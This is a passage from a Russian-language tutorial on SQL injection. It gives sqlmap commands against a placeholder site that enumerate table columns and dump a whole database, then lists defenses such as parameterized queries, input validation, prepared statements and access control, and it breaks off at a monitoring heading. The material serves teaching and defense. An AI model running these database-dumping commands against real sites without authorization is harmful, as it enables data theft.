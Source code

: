 Чтобы вывести список столбцов в таблице, мы можем использовать эту команду:

```
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns
```

Чтобы сделать дамп всей базы данных, используйте следующую команду:

```
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all
```

SQLMap предоставляет множество других полезных команд, таких как настройка файлов cookie, циклическое переключение пользовательских агентов и многое другое. Для получения дополнительной информации и полного списка опций вы можете [обратиться к документации SQLMap](https://github.com/sqlmapproject/sqlmap/wiki/Introduction) .

## Как защититься от атак SQL-инъекций

Чтобы предотвратить атаки с использованием SQL-инъекций, необходимо выполнить следующие действия:

### Используйте параметризованные запросы

Всегда используйте параметризованные запросы при взаимодействии с базой данных. Это означает, что мы должны использовать заполнители в наших SQL-выражениях для любого пользовательского ввода. Затем мы можем предоставить ввод в качестве отдельного параметра при выполнении запроса.

Это не позволит злоумышленнику внедрить произвольный SQL-код в наши SQL-операторы.

### Никогда не доверяйте пользовательскому вводу

Мы всегда должны проверять и дезинфицировать любой пользовательский ввод, чтобы гарантировать его безопасность. Мы должны убедиться, что ввод не содержит опасных символов или вредоносного кода.

Это поможет предотвратить возможность злоумышленника внедрять SQL-запросы, даже если ему удастся обойти наше использование параметризованных запросов.

### Используйте подготовленные заявления

Если база данных поддерживает подготовленные операторы, следует использовать их вместо параметризованных запросов.

Подготовленные операторы — это предварительно скомпилированные операторы SQL. Мы можем выполнять эти операторы несколько раз с разными параметрами.

Это затруднит злоумышленнику внедрение вредоносного кода, поскольку подготовленные операторы предварительно скомпилированы.

### Аутентификация и контроль доступа

Мы должны иметь надежную аутентификацию и контроль доступа к нашей базе данных. Это гарантирует, что только авторизованные пользователи смогут получить доступ к нашей базе данных и защитит ее от злоумышленников.

### Мониторинг и оповещения
